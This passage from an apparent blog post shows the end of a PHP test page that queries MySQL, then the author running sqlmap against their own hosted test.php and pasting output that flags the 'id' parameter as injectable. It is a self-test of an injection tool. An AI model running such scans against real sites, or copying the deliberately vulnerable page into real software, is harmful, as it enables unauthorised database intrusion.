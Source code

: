     /* fetch associative array */
    while ($row = mysqli_fetch_row($result)) {
        print_r($row);
    }

    /* free result set */
    mysqli_free_result($result);
}

/* close connection */
mysqli_close($link);
?>
</body>
</html>
{% endhighlight %}

For convenience I simply dropped the file on to [dropbox sync](http://vishwakarma09.github.io/2015/11/26/ci-with-dropbox.html) and it got posed to http://bimpra.tk/test.php

#Testing

To run the test, I simply run command:
{% highlight %}
python sqlmap.py -u "http://bimpra.tk/test.php?id=0" -z "ign,flu,bat" --banner -f
{% endhighlight %}

I was astonished to see the results:
{% highlight %}
root@ip-172-31-32-255:/var/www/html/sqlmap# python sqlmap.py -u "http://bimpra.tk/test.php?id=0" -z "ign,flu,bat" --banner -f
[07:26:12] [WARNING] detected ambiguity (mnemonic 'ign' can be resolved to: 'ignore-401', 'ignore-proxy'). Resolved to shortest of those ('ignore-401')
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201512030967}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 07:26:12

[07:26:12] [INFO] testing connection to the target URL
[07:26:12] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[07:26:12] [INFO] testing if the target URL is stable
[07:26:13] [INFO] target URL is stable
[07:26:13] [INFO] testing if GET parameter 'id' is dynamic
[07:26:13] [INFO] confirming that GET parameter 'id' is dynamic
[07:26:13] [INFO] GET parameter 'id' is dynamic
[07:26:13] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[07:26:13] [INFO] testing for SQL injection on GET parameter 'id'
[07:26:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:26:13] [INFO] GET parameter 'id' seems to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[07:26:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[07:26:13] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[07:26:13] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause'
[07:26:13] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[07:26:13] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[07:26:13] [INFO] testing 'MySQL inline queries'
[07:26:13] [INFO] testing 'PostgreSQL inline queries'
[07:26:13] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'